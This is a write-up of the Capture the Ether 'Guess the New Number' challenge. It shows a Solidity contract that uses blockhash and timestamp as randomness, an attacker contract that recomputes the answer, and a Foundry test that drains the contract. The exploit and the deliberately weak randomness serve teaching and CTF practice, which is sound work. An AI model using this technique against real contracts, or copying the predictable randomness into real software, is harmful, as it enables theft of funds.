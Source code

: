 ```yaml
---
title: Capture the Ether (RareSkills Repo) - Guess the New Number - Solution
date: '2023-11-26'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Capture the Ether - Guess the New Number CTF
---
```


# Capture the Ether (RareSkills Repo) - Guess the New Number - Solution

## Contract

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract GuessNewNumber {
    constructor() payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable returns (bool pass) {
        require(msg.value == 1 ether);
        uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));

        if (n == answer) {
            (bool ok,) = msg.sender.call{value: 2 ether}("");
            require(ok, "Fail to send to msg.sender");
            pass = true;
        }
    }
}
```

## Exploit

Since both `blockhash(block.number - 1)` and `block.timestamp` can also be accessed by an attacker contract, we can reproduce `answer` inside an attacker contract using the exact same code:

_GetNewNumber.sol_

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract GuessNewNumber {
    ...
}

contract ExploitContract {
    GuessNewNumber public guessNewNumber;
    uint8 public answer;

    function Exploit() public returns (uint8) {
        answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
        return answer;
    }
}
```

_GetNewNumber.t.sol_

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/GuessNewNumber.sol";

contract GuessNewNumberTest is Test {
    GuessNewNumber public guessNewNumber;
    ExploitContract public exploitContract;

    function setUp() public {
        // Deploy contracts
        guessNewNumber = (new GuessNewNumber){value: 1 ether}();
        exploitContract = new ExploitContract();
    }

    function testNumber(uint256 blockNumber, uint256 blockTimestamp) public {
        // Prevent zero inputs
        vm.assume(blockNumber != 0);
        vm.assume(blockTimestamp != 0);
        // Set block number and timestamp
        vm.roll(blockNumber);
        vm.warp(blockTimestamp);

        // Place your solution here
        uint8 answer = exploitContract.Exploit();
        _checkSolved(answer);
    }

    function _checkSolved(uint8 _newNumber) internal {
        assertTrue(guessNewNumber.guess{value: 1 ether}(_newNumber), "Wrong Number");
        assertTrue(guessNewNumber.isComplete(), "Balance is supposed to be zero");
    }

    receive() external payable {}
}
```
